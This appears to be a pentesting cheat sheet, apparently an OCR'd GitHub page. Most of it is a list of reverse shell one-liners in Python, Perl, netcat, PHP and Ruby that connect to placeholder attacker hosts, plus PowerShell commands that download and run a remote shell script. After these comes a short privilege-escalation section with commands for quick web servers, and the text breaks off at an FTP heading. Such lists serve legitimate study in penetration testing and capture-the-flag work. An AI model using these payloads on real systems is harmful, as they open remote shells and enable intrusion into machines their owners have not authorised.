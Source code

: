 ```bash

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="$IP";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe $IP 4443

# from cmd
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/Invoke-PowerShellTcp.ps1')

# PowerShell
PS C:\>IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/Invoke-PowerShellTcp.ps1')


# PHP
<?php $sock = fsockopen("$IP",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>

php -r '$sock=fsockopen("x.x.x.x",6969);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",6969).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#OR use rsg

https://github.com/mthbernardes/rsg
rsg <interface> <port>
```
# Privilege escalation

## Common

### Set up Webserver
```bash
python -m SimpleHTTPServer 80
python3 -m http.server 
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
https://github.com/sc0tfree/updogupdog
```
### Set up FTP Server
